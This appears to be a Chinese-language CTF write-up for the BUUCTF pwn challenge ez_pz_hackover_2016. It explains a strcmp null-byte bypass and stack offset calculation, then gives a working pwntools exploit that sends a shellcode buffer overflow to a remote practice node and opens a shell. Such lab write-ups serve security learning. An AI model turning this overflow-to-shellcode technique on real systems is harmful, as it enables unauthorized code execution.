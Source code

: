 ### Strcmp 绕过注入

话不多说，直接上题

![](https://pic1.imgdb.cn/item/67afe790d0e0a243d4ff7a3a.png)

首先调用了 chall()

![](https://pic1.imgdb.cn/item/67afe94fd0e0a243d4ff7acd.png)

strcmp 比较函数可使用 \x00 绕过

![](https://pic1.imgdb.cn/item/67afe7acd0e0a243d4ff7a3b.png)

最后从 src 中拷贝 0x400 字节到 dest 中

![](https://pic1.imgdb.cn/item/67afe7e3d0e0a243d4ff7a41.png)

gdb 动态调试

```python
from pwn import *

p = process('./ez_pz_hackover_2016')

gdb.attach(p,'b *0x8048600')

p.recvuntil('crash: ')

stack = int(p.recv(10),16)

shellcode = asm(shellcraft.sh())

payload = b'crashme\x00' + b'aaaaa'
p.sendline(payload)

pause()
```

0x7263 是 cr，ebp 为 0x38 距离输入差 0x38-0x20+0x2 = 0x16

![](https://pic1.imgdb.cn/item/67afecced0e0a243d4ff7af9.png)

程序开头给出了栈地址

![image-20250215093613521](C:\Users\ydd33\AppData\Roaming\Typora\typora-user-images\image-20250215093613521.png)

我们的 shellcode 应该写在 ebp 之后（32位程序的 ebp 占 4 个字节），就是在 0x16+0x4 处

换句话说我们在覆盖完 ebp 后的返回地址应该填写指向 shellcode 的地址

我们输入点距离我们的返回地址的距离是 0x3c - 0x20 = 0x1c

所以我们可以用 oxffced7cc - 0x1c 来表示返回地址

![](https://pic1.imgdb.cn/item/67b00157d0e0a243d4ff8014.png)

构造 payload

```python
from pwn import *

r = remote('node5.buuoj.cn',27869)

r.recvuntil('crash: ')

stack = int(r.recv(10),16)

shellcode = asm(shellcraft.sh())

payload = b'crashme\x00' + b'a' * (0x16 - 8 + 4) + p32(stack - 0x1c) + shellcode

r.sendline(payload)
r.interactive()
```

